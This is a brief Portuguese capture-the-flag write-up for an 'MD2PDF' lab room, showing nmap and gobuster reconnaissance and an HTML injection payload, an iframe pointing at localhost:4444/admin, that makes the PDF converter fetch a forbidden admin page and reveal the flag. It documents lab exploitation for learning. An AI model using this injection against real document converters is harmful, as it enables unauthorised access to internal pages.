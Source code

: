 # _**MD2PDF**_
![](pdf.jpg)

## _**Enumeração**_
Primeiro, vamos realizar um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A [ip_address]
> ```
Temos serviços nas portas 22, 80 e 5000

Esta sala se trata de converter um arquivo _m2_ para _pdf_  
Vamos acessar o _website_ e procurar por diretórios  
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos _admin_, mas com acesso proibido  
Fui procurar maneiras de realizar _bypass_ e foi encontrado _HTML Injection_  
Testando ```<iframe src="http://localhost:4444/admin" width="100%" height="500"></iframe>```
Obtemos a flag!
